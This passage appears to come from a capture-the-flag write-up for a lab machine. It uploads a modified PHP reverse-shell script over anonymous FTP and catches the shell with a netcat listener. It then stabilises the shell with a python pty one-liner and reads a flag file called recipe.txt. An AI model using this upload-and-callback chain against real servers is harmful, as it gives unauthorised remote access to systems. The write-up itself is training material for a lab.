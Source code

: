 ```
250 Directory successfully changed.
```
- We can upload a reverse shell in this directory.
- We will be using the `/usr/share/webshells/php/php-reverse-shell.php` script after making some modifications.

![4](https://github.com/Knign/Write-ups/assets/110326359/0a37e469-dc9c-4e0d-a083-2617e8357d5e)

- We replaced the IP address with our `tun0` address and set the port to a port of our choice.
- Let's upload the file to the FTP server using `put`.
```
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||50625|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494        2.27 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (19.80 KiB/s)
```
- Now we have to listen on the `9999` port using `netcat`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
- Let's go to the `/files/ftp` folder.

![5](https://github.com/Knign/Write-ups/assets/110326359/08dd912a-06d9-4ba3-adcd-c588983624ed)

- All we have to do now is execute the `php-reverse-shell.php` file.
- If we go back to our console, we must have a shell.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.96.227] 37428
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:33:05 up 42 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- We can stabilize the shell using the following commands:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```
- Let's look for the secret spicy soup recipe.
```
www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```
- Here, the `recipe.txt` file seems interesting. We can read it using the `cat` command.
```
www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```